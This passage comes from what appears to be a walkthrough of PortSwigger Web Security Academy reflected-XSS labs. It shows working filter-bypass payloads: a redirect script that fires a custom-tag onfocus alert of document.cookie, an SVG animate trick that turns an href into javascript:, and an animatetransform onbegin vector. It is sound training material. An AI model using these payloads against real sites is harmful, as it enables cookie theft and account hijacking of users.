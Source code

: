 Now we can make the target automatic visit the URL:
```html
<script>
location = 'https://0a3400a3045b5389806c17c000250047.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3D%27alert(document.cookie)%27+id%3D%27pwned%27+tabindex%3D%271%27%3E#pwned'
</script>
```
### Lab: Reflected XSS with event handlers and href attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked.

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

`<a href="">Click me</a>`

After fuzzing, the allowed tag are `a` and `animate` tag

The payload is: 
```html
<svg>
  <a>
    <animate attributeName=href values=javascript:alert(1) />
    <text x=20 y=20>Click me</text>
  </a>
</svg>
```
The `<animate>` tag is part of the SVG animation specification. It allows attributes of an element (in this case, href) to change.

The `<animate>` tag updates the href attribute of the `<a>` tag to `javascript:alert(1)`. When the user clicks on the text “Click me” (inside the `<a>` tag).
The browser executes the JavaScript `alert(1)`.

### Lab: Reflected XSS with some SVG markup allowed

This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the `alert()` function. 

After fuzzing, the allowed tags are: animatetransform, image, svg, title and the allowed event is only onbegin

The payload could be: `<svg><animatetransform onbegin=alert(1)>`

## XSS in HTML tag attributes

When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:
